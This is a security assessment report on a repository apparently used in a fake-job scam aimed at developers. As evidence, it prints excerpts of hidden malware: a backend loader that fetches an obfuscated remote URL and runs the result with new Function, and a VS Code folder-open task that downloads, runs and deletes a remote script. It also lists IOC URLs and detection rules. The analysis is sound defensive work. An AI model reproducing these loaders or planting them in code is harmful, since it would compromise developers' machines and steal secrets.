



# Security Assessment Report - Suspected Web3 Fake-Job Scam

Project: `assessment-14`  
Assessment Date: 2026-02-13  
Analyst: Medved 
Scope: Frontend (`src`), backend (`server`), VS Code workspace tasks, Solidity contracts (`contracts`)

---

 Executive Summary

This repository contains multiple critical compromise mechanisms that are strongly consistent with malicious "fake job assessment" campaigns targeting developers.

The most severe risks are:
- A backend remote code execution (RCE) chain that fetches attacker-controlled code and executes it at runtime.
- A `.vscode` task configured to auto-run on folder open, download a remote script, execute it, and remove traces.

Final verdict: Likely malicious.

---

 Risk Dashboard

# Severity Distribution



# Security Posture Snapshot

| Metric | Value | Status |
|---|---:|---|
| Total findings | 7 | Elevated |
| Critical findings | 2 | Fail |
| Remote code execution paths | 2 | Fail |
| Auto-exec on developer workstation | 1 | Fail |
| Smart-contract drainer indicators | 0 confirmed | Monitor |
| Immediate containment required | Yes | Urgent |

# CIA Impact Dashboard

| Dimension | Impact | Notes |
|---|---|---|
| Confidentiality | Critical | Potential theft of secrets, tokens, env values, wallet-related data |
| Integrity | Critical | Arbitrary command/code execution can modify code and artifacts |
| Availability | High | Malware can disrupt build/dev environments and backend runtime |

---

 Attack Chain Graph



---

 Findings (Prioritized)

 1) Critical - Backend Remote Code Execution via Remote Payload

Affected files
- `server/controllers/auth.controller.js`
- `server/config/config.js`
- `server/middleware/errorHandler.js`

Why this is malicious
- Runtime fetch of remote payload from obfuscated URL.
- Dynamic code execution of fetched content with access to `require`.
- Gives attacker arbitrary code execution on host running the backend.

Evidence

```js
// server/controllers/auth.controller.js
axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
```

```js
// server/config/config.js
publicKey: 'aHR0cHM6Ly9hcGkubnBvaW50LmlvLzMyNWJhYjFjMDJkYjQ1YWY3ZjYy'
// decodes to: https://api.npoint.io/325bab1c02db45af7f62
```

```js
// server/middleware/errorHandler.js
const handler = new Function.constructor("require", errCode);
handlerFunc(require);
```

Potential impact
- Secret/token theft, lateral movement, arbitrary command execution, persistent backdoor installation.

---

 2) Critical - VS Code Folder-Open Auto-Execution Dropper

Affected file
- `.vscode/tasks.json`

Why this is malicious
- Uses `runOn: "folderOpen"` to trigger without explicit user intent.
- Downloads remote script, executes it, then deletes temp file.
- Cross-platform variants (Windows/macOS/Linux).

Evidence

```json
"runOptions": {
  "runOn": "folderOpen"
}
```

```js
// windows task payload excerpt
const { exec } = require(`child_process`);
https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => {
  // ...
  fs.writeFileSync(tempFile, d);
  exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => {
    setTimeout(() => fs.unlinkSync(tempFile), 1000);
  });
});
```

Potential impact
- Immediate workstation compromise, payload staging, anti-forensics via temp-file cleanup.

---

 3) High - Obfuscated Remote Payload Characteristics

External IOC
- `https://api.npoint.io/325bab1c02db45af7f62`

Why this is suspicious
- Payload is heavily obfuscated and includes OS/process/system inspection constructs.
- Characteristic of stealer/backdoor staging logic.

Observed indicators in returned payload
- Obfuscation with encoded strings/control-flow scrambling.
- References to Node/system primitives like `os`, `process`, `fs`, and environment checks.

Potential impact
- Adaptive behavior, evasion, targeted exfiltration depending on host environment.

---

 4) High - Hardcoded Secret Material in Source

Affected file
- `server/config/config.js`

Evidence

```js
secretKey: 'sdfklsdfslfnlj3j5bj35bj4b4'
```

Risk
- Secrets in source can be harvested, reused for token forgery/session abuse, and leaked in logs/backups.

---

 5) Medium - Smart Contract Business-Logic Risk Surface

Affected file
- `contracts/HomeTransaction.sol`

Observation
- No explicit hidden owner/drainer behavior found.
- However, escrow/finalization logic should be reviewed for edge-case loss/dispute outcomes.

Evidence

```solidity
function anyWithdrawFromTransaction() public {
    require(buyer == msg.sender || finalizeDeadline <= now, "Only buyer can withdraw before transaction deadline");
    require(contractState == ContractState.WaitingFinalization, "Wrong contract state");
    contractState = ContractState.Rejected;
    seller.transfer(deposit-realtorFee);
    realtor.transfer(realtorFee);
}
```

---

 6) Low - Unused Web3/Clipboard-Adjacent Dependency

Affected file
- `package.json`

Evidence

```json
"react-copy-to-clipboard": "^5.1.0"
```

Risk
- Not malicious by itself, but unnecessary dependencies increase audit surface and supply-chain risk.

---

 7) Low - Social Engineering Context Indicators

Affected file
- `README.md`

Why relevant
- Presents as a quick take-home exercise, instructs candidate to install and run immediately.
- Pattern aligns with known social-engineering delivery methods for malicious repos.

Evidence

```md
This task should take approximately 40 minutes.
npm i
npm start
```

---

 Indicators of Compromise (IOCs)

# Network IOCs
- `https://api.npoint.io/325bab1c02db45af7f62`
- `https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`
- `https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`
- `https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`

# Behavioral IOCs
- Dynamic code execution via `new Function(...)`.
- Task auto-execution on workspace open (`runOn: folderOpen`).
- Download-execute-delete pattern in temp directory.
- Base64-encoded external control URL in app config.

---

 Remediation Plan

# Immediate Containment (0-2 hours)

1. Do not execute this project (`npm i`, `npm start`, IDE auto tasks).
2. Remove or quarantine:
   - `.vscode/tasks.json`
   - Runtime fetch/execute line in `server/controllers/auth.controller.js`
   - Dynamic executor in `server/middleware/errorHandler.js`
   - Malicious `publicKey` in `server/config/config.js`
3. Block listed IOC domains/URLs at network controls if possible.
4. If executed previously, isolate impacted machine and start incident response.

# Short-Term Eradication (same day)

1. Replace `server/config/config.js` secrets with env variables.
2. Remove all dynamic code execution constructs (`eval`, `Function`, remote script loaders).
3. Pin and verify dependencies; remove unused packages.
4. Add CI checks to fail on:
   - `runOn: folderOpen`
   - `child_process` in non-build tooling
   - `new Function`/`eval` in server code

# Recovery & Hardening (1-3 days)

1. Rotate all credentials/tokens potentially exposed on impacted hosts.
2. Re-image compromised endpoints if execution is confirmed.
3. Add pre-merge security scanning (SAST + dependency audit + secret scanning).
4. Require signed commits and trusted-source validation for coding assessments.

---

 Remediation Dashboard



| Workstream | Owner | Priority | ETA |
|---|---|---|---|
| Quarantine malicious files | Security/Dev Lead | P0 | Immediate |
| Remove RCE code paths | Backend Engineer | P0 | Immediate |
| IOC blocking + monitoring | SecOps | P1 | Same day |
| Secret rotation | Platform/SRE | P1 | Same day |
| CI policy guardrails | DevSecOps | P2 | 1-3 days |

---

 Suggested Safe Code Replacements

# Replace dynamic error handler

```js
// BAD: executes attacker-controlled strings
// const handler = new Function.constructor("require", errCode);

// GOOD: structured, non-executable logging only
const errorHandler = (error) => {
  if (typeof error !== "string") {
    console.error("Invalid error format");
    return;
  }
  console.error("Remote error payload rejected");
};
```

# Remove remote runtime bootstrap in auth controller

```js
// BAD
// axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));

// GOOD
// Remove entirely. Never fetch executable runtime code from remote endpoints.
```

---

 Confidence & Limitations

- Confidence: High for malicious intent due to independent critical indicators and execution chains.
- Method: Static analysis and endpoint content inspection only.
- Limitations: No dynamic sandbox execution was performed in this assessment.

---

 Final Assessment

This repository should be treated as a malicious or heavily compromised codebase until fully sanitized and independently re-verified in an isolated environment.

